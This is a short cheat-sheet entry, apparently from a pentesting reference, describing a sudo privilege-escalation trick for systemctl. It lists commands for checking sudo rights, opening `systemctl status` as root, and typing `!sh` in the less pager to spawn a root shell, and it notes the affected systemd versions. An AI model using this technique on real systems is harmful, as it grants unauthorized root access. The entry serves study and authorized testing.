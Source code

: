 # systemctl

## Exploit: Shell using less pager

***

```sh
sudo -l

(ALL) NOPASSWD: systemctl status some.service
```

Check if you have permissions to run `systemctl status` as root

```
sudo systemctl status some.service
```

In the pager (less), enter:

```
!sh
```

### Why?

Explanation: In certain versions of `systemd` , `less` was the default pager for `systemctl`. `less` allows users to run shell commands using `!command`. These versions did not tightly control the `SYSTEMD_PAGER` variable, enabling shell access from the pager.&#x20;

Vulnerable version: `systemd` versions before 247

Patched version: `systemd` version 247 and later

